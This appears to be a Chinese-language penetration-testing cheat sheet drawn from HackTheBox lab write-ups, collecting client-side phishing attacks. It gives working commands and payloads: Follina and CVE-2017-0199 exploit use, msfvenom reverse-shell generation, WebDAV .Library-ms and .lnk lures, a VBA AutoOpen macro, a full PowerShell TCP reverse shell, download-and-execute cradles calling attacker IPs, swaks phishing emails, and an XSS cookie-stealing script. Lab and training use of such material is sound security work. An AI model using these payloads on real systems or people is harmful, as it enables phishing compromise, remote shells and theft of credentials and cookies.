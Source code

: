 
- ### follina EXP 钓鱼 
 https://github.com/JohnHammond/msdt-follina   
发送邮件内容，点击后拿到反弹 shell
[0x26 Outdated (邮件钓鱼,WSUS)](../0x0B%20HackTheBox%20WP/靶机推荐第五组%2081-120暨内⽹和域渗透学习路径/0x26%20Outdated%20(邮件钓鱼,WSUS).md)
修改 exp
![](photos/Pasted%20image%2020240223140936.png)

本地建立监听8888端口提供 nc64的下载服务
```bash
└─$ python -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
```

- EXP
``` 
└─$ python3 follina.py -r 2233 -i tun0 -p 80
[+] copied staging doc /tmp/9hwnhhe0
[+] created maldoc ./follina.doc
[+] serving html payload on :80
[+] starting 'nc -lvnp 2233' 
listening on [any] 2233 ...
```

- Send Email
```bash
swaks --to itsupport@outdated.htb --from "xekoner@gmail.com" --server 10.129.68.232 --header "Subject: Internal web app" --body "http://10.10.14.16" 
```



- ### rtf 文件钓鱼
RCE Exp **CVE-2017-0199**    >[0x20 Reel (邮件发送 rtf 文件拿 shell,Bloodhound,枚举)](../../0x0B%20HackTheBox%20WP/靶机推荐第五组%2081-120暨内⽹和域渗透学习路径/0x20%20Reel%20(邮件发送 rtf 文件拿 shell,Bloodhound,枚举).md)<

建立反向 shell 利用文件
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.39 LPORT=2233 -f hta-psh -o msfv.hta (生成hta文件的reverse shell) 
```

创建 rtf 文件
https://github.com/bhdresh/CVE-2017-0199
```bash
└─$ python2 CVE-2017-0199/cve-2017-0199_toolkit.py -M gen -t RTF -w shell.rtf -u http://10.10.14.11/shell.hta -x 0
```
`-M gen` 生成文档
`-w shell.rtf` 输出文件名
`-u http://10.10.14.11/shell.hta` URL
`-t RTF` 指定创建 rtf 类型文档
`-x 0` 禁用 rtf 混淆

生成 Invoice.rtf 后，使用邮件发送：
```bash
sendEmail -f xekOnerR@gmail.com -t nico@megabank.com -s 10.129.228.182:25 -u 'Hello,Sir' -m 'Nothing Here,LOL' -a shell.rtf -v
```



- ### 利用 WebDav 共享,Get RevShell
https://medium.com/@mhwee/unmasking-windows-library-files-a-deep-dive-into-client-side-exploitation-6bf3371a5262
设置 WebDAV 共享
```bash
sudo apt install python3-wsgidav
mkdir /tmp/webdav; wsgidav --host=192.168.45.225 --port=80 --auth=anonymous --root /tmp/webdav
```
![](photos/Pasted%20image%2020240623020808.png)


在 Windows 主机上创建 .Library-ms 和 .lnk 文件
**config.Library-ms**  , 修改URL 为攻击机
```xml
vim /tmp/webdav/config.Library-ms

<?xml version="1.0" encoding="UTF-8"?>  
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">  
<name>@windows.storage.dll,-34582</name>  
<version>6</version>  
<isLibraryPinned>true</isLibraryPinned>  
<iconReference>imageres.dll,-1003</iconReference>  
<templateInfo>  
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>  
</templateInfo>  
<searchConnectorDescriptionList>  
<searchConnectorDescription>  
<isDefaultSaveLocation>true</isDefaultSaveLocation>  
<isSupported>false</isSupported>  
<simpleLocation>  
<url>http://192.168.45.225</url>  
</simpleLocation>  
</searchConnectorDescription>  
</searchConnectorDescriptionList>  
</libraryDescription>
```

**.lnk**
右键桌面创建快捷方式，名称为 auto_config
```powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<attacker-ip>:8000/powercat.ps1'); powercat -c <attacker-ip> -p 4444 -e powershell"
```

将 lnk 文件放到 kali 的 webdav 目录下，在 PowerCat 目录建立本地8000的监听
```bash
python -m http.server 8000
```

发送邮件
```bash
swaks -t jim@relia.com --from xekOnerR@gmail.com --attach @config.Library-ms --server 192.168.246.189 --body "QWE" --header "Subject: Urgent Configuration Setup" [--suppress-data -ap (提供身份验证)]
```

等待收到 shell 即可


- ### OTD 文件拿 HTLM HASH
https://www.exploit-db.com/exploits/44564
https://github.com/rmdavy/badodf/blob/master/badodt.py
```bash
python2 44564.py
responder -I tun0 -A
```


- ### VBA 配合 cs
开发工具 > 宏 > 命名为 AutoOpen, 创建:
```vba
Sub AutoOpen()

  Dim Shell As Object
  Set Shell = CreateObject("wscript.shell")
  Shell.Run "notepad"

End Sub
```
单击运行测试后可以替换为 cs 中的 payload :   攻击 > 钓鱼攻击 > Scripted Web Delivery(S)
生成的 payload 复制到宏后将 **IEX 两端添加引号**

```
Shell.Run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://192.168.0.108:80/a'))"""
```

记得抹除个人信息，然后运行即可。

### SMB + .lnk 被点击 Get Rev Shell
- **创建一个.lnk 文件，等待有人点击后得到反向 shell**
rev.ps1
```bash
$c = New-Object Net.Sockets.TCPClient('10.10.16.21',443);$s = $c.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $d 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$ssb = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($ssb,0,$ssb.Length);$s.Flush()};$c.Close()
```

```powershell
PS C:\Common Applications> $WScriptShell = New-Object -ComObject WScript.Shell 
PS C:\Common Applications> $Shortcut = $WScriptShell.CreateShortcut("C:\Common Applications\Notepad.lnk") 
PS C:\Common Applications> $Shortcut.TargetPath = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" 
PS C:\Common Applications> $Shortcut.Arguments = "IEX(New-Object Net.WebClient).DownloadString('http://10.10.16.21/rev.ps1')" 
PS C:\Common Applications> $Shortcut.Save()
```


# XSS

XSS 拿 Cookie  (需要在 kali 建立 http.server 监听)
```js
<script>var i=new Image(); i.src="http://10.10.14.5/?cookie="+btoa(document.cookie);</script>
```

Common Payload
```
<img src="http://10.10.14.5/xss.jpg" />
```
